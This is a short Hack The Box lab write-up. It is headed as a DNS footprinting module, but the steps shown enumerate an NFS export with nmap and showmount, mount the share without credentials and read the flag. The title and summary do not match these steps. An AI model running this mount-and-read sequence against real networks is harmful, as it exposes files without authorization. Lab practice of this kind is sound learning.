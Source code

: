 # DNS Foot-printing HTB Module 🕒
>
> *Hack The Box*  
> *Date Solved: 2025-05-20*  
> *Category: Networking*
> *Tools Used: dig, denum*

## Table of Contents

- [DNS Foot-printing HTB Module 🕒](#dns-foot-printing-htb-module-)
  - [Table of Contents](#table-of-contents)
  - [Summary](#summary)
  - [Reconnaissance \& Enumeration](#reconnaissance--enumeration)
  - [Exploitation](#exploitation)
  - [Takeaways \& Lessons Learned](#takeaways--lessons-learned)

---

## Summary

Perform DNS enumeration against the inlanefreight.htb domain to discover all published hostnames, IPs, and delegated sub‐zones, then identify next steps for network and service discovery

---

## Reconnaissance & Enumeration

Port scan & RPC discovery

```bash
sudo nmap -p111 -sV -sC 10.129.42.178

    Port 111/tcp open → rpcbind

    NSE rpcinfo reveals an NFS export (program 100003)
```

List available NFS exports

```bash
showmount -e 10.129.42.178

    Export list for 10.129.42.178:
```

/nfsshare 10.129.0.0/16

- Share name: `/nfsshare`  
- Exported to the internal network  

---

## Exploitation

Step 1. Create a mount point  

```bash
mkdir -p ./target-NFS
```

Step 2. Mount the NFS share

```bash
sudo mount -t nfs 10.129.42.178:/nfsshare ./target-NFS/ -o nolock
```

 -o nolock avoids locking RPC calls if lockd isn’t available

Step 3. List and read the flag

```bash
    ls ./target-NFS/
    # flag.txt

    cat ./target-NFS/flag.txt
    # HTB{nfs_exposed_flag_txt}
```

---

## Takeaways & Lessons Learned

An easy CTF but I learned the basics of footprinting NFS services.

- Always enumerate RPC services with rpcinfo and showmount after finding rpcbind.

- nolock option is useful when the server’s lock daemon isn’t responding.

- Quick wins: mounting NFS shares can yield immediate file access without credentials.
